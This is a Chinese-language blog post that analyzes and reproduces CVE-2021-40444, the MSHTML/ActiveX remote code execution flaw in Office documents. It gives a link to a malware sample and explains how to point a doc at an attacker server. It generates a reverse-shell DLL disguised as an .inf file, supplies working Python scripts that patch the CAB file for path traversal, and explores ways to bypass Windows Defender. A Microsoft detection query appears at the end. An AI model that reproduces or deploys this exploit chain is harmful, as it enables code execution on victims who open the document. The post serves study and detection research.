 ```yaml
---
title: CVE-2021-40444学习及复现
date: 2021-09-18 10:44:06
tags:
---
```


# CVE-2021-40444学习及复现

2021年9月7日，微软威胁情报中心（MSTIC）公布了编号为CVE-2021-40444的一个重大漏洞，该漏洞是Microsoft内置浏览器引擎MSHTML的远程命令执行漏洞。攻击者可通过制作恶意的 ActiveX 控件供托管浏览器呈现引擎的 Microsoft Office文档使用，成功诱导用户打开恶意文档后，可在目标系统上以该用户权限执行任意代码。 



MSHTML（又称为Trident）是微软旗下的Internet Explorer 浏览器引擎，也用于 Office 应用程序，以在 Word、Excel 或 PowerPoint 文档中呈现 Web 托管的内容。AcitveX控件是微软COM架构下的产物，在Windows的Office套件、IE浏览器中有广泛的应用，利用ActiveX控件即可与MSHTML组件进行交互。

## 恶意样本分析

首先从获取他人上传的恶意样本进行分析，样本地址为：https://vx-underground.org/tmp/CVE-2021-40444.rar，下载样本后对样本进行一个分析，首先从doc开始，将doc的后缀名修改成zip再进行一个解压缩。

![image-20210916140448272](../_img/image-20210916140448272-4138004.png)

打开document.xml.rels文件，发现存在一个外部资源的请求。

![image-20210916140704985](../_img/image-20210916140704985-4138004.png)

MHTML是Internet Explorer保存的网页存档文件格式的文件扩展名，存档的网页是一个MHTML文件。MHTML保存网页内容，并将外部资源，如图像、小程序、Flash动画等存入HTML文档。接下来我们查看这个文档请求的HTML文件内容

![image-20210916141245392](../_img/image-20210916141245392-4138004.png)

网上给出的样本是经过了混淆的，不过可以得到两条比较关键的信息，一个是ministry.cab，一个是championship.inf，先去查看样本中的cab文件，发现里面打包championship这个inf文件

![image-20210916141751768](../_img/image-20210916141751768-4138004.png)

查看inf内容发现这是一个PE文件，初步推测这就是攻击者的后门文件。查看网上他人对于html的[逆向结果]([CVE2021-40444/poc.html at main · aydianosec/CVE2021-40444 (github.com)](https://github.com/aydianosec/CVE2021-40444/blob/main/poc.html))（这个还原的代码仅作参考，实际运行会有问题）

![image-20210916142723852](../_img/image-20210916142723852-4138004.png)

可以看出首先利用了html跳转去请求并打开cab文件，cab文件中包含了一个扩展名为.inf的恶意DLL文件，office利用control.exe将inf文件作为控制面板文件执行。

漏洞利用链

![图示使用 CVE-2021-40444 的 DEV-0413 战役攻击链](../_img/Figure2-attack-chain.png)

## 漏洞复现

修改document.xml.rels中的mhtml内容，改成我们自己的服务器地址，在还原成doc文件。

![image-20210916151417458](../_img/image-20210916151417458-4138004.png)

再利用msf生成反弹shell的DLL文件，修改dll文件后缀为inf，再利用脚本对文件进行打包，Linux下需要利用安装lcab，而windows下只需要下载一个cabarc.exe.

windows打包代码

```python
#Use python2.7
import os, sys, subprocess, binascii, time

filename = sys.argv[1]
args = "cabarc.exe -i 1234 -m NONE -p n w.cab " + filename
subprocess.call(args)
time.sleep(1)
cab = "w.cab"
fh = open(cab,mode='r+')
buff=fh.read()
fh.seek(0)
fh.write(buff[:44]+'\x00\x5d\x44\x00')
fh.close()

```

Linux 下打包命令

```python
#!/usr/bin/env python3
# Patch cab file
import os,sys,subprocess

def execute_cmd(cmd):
	r = subprocess.getoutput(cmd)
	return r
m_off = 0x2d
def patch_cab(path):
	f_r = open(path, 'rb')
	cab_content = f_r.read()
	f_r.close()
	
	out_cab = cab_content[:m_off]
	out_cab += b'\x00\x5d\x44\x00'
	out_cab += cab_content[m_off+4:]
	out_cab = out_cab.replace(b'..\\m.inf', b'../m.inf')
	
	f_w = open('word.cab', 'wb')
	f_w.write(out_cab)
	f_w.close()
	return

execute_cmd('mkdir cab/')
execute_cmd('cp word.dll m.inf')
os.chdir('cab/')
execute_cmd('lcab \'../m.inf\' out.cab')

patch_cab('out.cab')
```

修改html内容，主要是修改cab的访问路径以及cpl调用的文件名。这里可以注意一下，在实际测试过程中发现，原本的样本中的.cpl:123没有任何作用，并且.inf文件默认会保存到用户\appdata\local\temp\目录下，所以这里对html内容进行了删减。

![image-20210916153506482](../_img/image-20210916153506482-4138004.png)

python建立监听，点击doc，可以发现请求如下

![image-20210916161131218](../_img/image-20210916161131218-4138004.png)

![image-20210916161906737](../_img/image-20210916161906737-4138004.png)

并且m.inf文件TEMP目录下。

![image-20210916161241870](../_img/image-20210916161241870-4138004.png)

打开process monitor可以发现cab文件首先缓存下来。并且rundll32进程开始加载我们的inf文件。

![image-20210916161612318](../_img/image-20210916161612318-4138004.png)

![image-20210916161818716](../_img/image-20210916161818716-4138004.png)

至此整个漏洞的利用复现就完成了。

## 衍生思考

在整个漏洞测试中，我们是关闭掉windwos defener来进行的，因为，在测试中发现，defender会对rundll32来加载跨目录的inf文件进行拦截，并且标记为CVE-2021-40444。

![image-20210916162531205](../_img/image-20210916162531205-4138004.png)

因此思考一下对于Denfender的绕过，对于.cpl:../../../这样的格式感到好奇。其中.cpl看起来是文件后缀名，感觉是利用windows自带的一些协议去加载这个文件，于是我进行了其他后缀名的测试，例如使用.vbs去执行。

![image-20210916163341079](../_img/image-20210916163341079-4138004.png)

在测试中.vbs的执行成功了，并且绕过了windows defender的拦截，但是在这样的测试中存在一个问题，cab中的vbs文件并不能释放出来，这里是我手动将vbs放过去后，利用activex进行的加载，姑且算一个劫持吧。同样我们也可以利用这种方式去加载一个计算器。

![image-20210916164113713](../_img/image-20210916164113713-4138004.png)

当然类似于.hta也是可以的，但存在一个问题，hta没办法通过目录穿越来进行加载。

![image-20210916165426637](../_img/image-20210916165426637-4138004.png)

有一个技巧来判断哪些后缀名是可以利用的，打开运行窗口，在这里进行测试：

![image-20210916165359120](../_img/image-20210916165359120-4138004.png)

如果可以针对cab的释放进行研究，应该可以绕过windows denfender来进行利用。



Tips：该漏洞并不仅限于doc文件，也可以利用rtf文件，并且rtf文件存在预览模式，可以更方便的达到目的。

Tips2: 这个利用存在了一个问题，因为他是利用目录穿越去读取，当我的doc文档不在c盘的时候，会有不能跨盘的问题存在。	



## 检测规则

以下是微软官方给出的检测方法：

利用以下查询，通过URL协议处理目录穿越来利用控制面板的情况

DeviceProcessEvents | where (FileName in~('control.exe','rundll32.exe') and ProcessCommandLine has '.cpl:')
or ProcessCommandLine matches regex @'\".[a-zA-Z]{2,4}:\.\.\/\.\.'



